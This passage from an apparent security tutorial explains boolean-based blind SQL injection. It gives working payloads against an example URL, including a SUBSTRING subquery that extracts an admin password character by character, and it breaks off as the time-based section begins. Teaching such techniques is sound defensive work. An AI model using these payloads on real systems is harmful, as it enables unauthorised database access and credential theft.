 - No data is directly transferred via the web application
- Attackers reconstruct information by sending specific requests and observing the application's behavior
- Despite being "blind," these attacks can be just as dangerous as in-band SQL injection
- They typically take longer to exploit due to the iterative nature of the attack

There are two main types of blind SQL injection:

#### Boolean-Based Blind SQL Injection

Boolean-based blind SQL injection relies on sending SQL queries to the database and observing the application's response to determine whether the query returned TRUE or FALSE.

**Basic Example:**
```sql
URL: suhesh.com.np/app.php?id=1
Backend Query: SELECT title FROM product WHERE id=1

Payload 1 (FALSE): suhesh.com.np/app.php?id=1 AND 1=2
Result: No title displayed (FALSE condition)

Payload 2 (TRUE): suhesh.com.np/app.php?id=1 AND 1=1
Result: Title displayed (TRUE condition)
```

This confirms the presence of a blind SQL injection vulnerability.

**Advanced Example - Data Extraction:**

Let's say we want to extract the admin password from this users table:

| Username | Password |
|----------|----------|
| admin    | default  |

```sql
PAYLOAD: suhesh.com.np/app.php?id=1 AND SUBSTRING((SELECT Password FROM Users WHERE Username="admin"),1,1)="a"
BACKEND QUERY: SELECT title FROM product WHERE id=1 AND SUBSTRING((SELECT Password FROM Users WHERE Username="admin"),1,1)="a"
```

This query checks if the first character of the admin's password is "a". Since it's not, no title is displayed.

```sql
PAYLOAD: suhesh.com.np/app.php?id=1 AND SUBSTRING((SELECT Password FROM Users WHERE Username="admin"),1,1)="d"
BACKEND QUERY: SELECT title FROM product WHERE id=1 AND SUBSTRING((SELECT Password FROM Users WHERE Username="admin"),1,1)="d"
```

Since the first character of the password is "d", the title will be displayed, confirming our guess. This process can be automated to extract the entire password character by character.
#### Time-Based Blind SQL Injection

Time-based blind SQL injection is a technique that relies on the database pausing for a specified amount of time to infer information about the database structure and content.
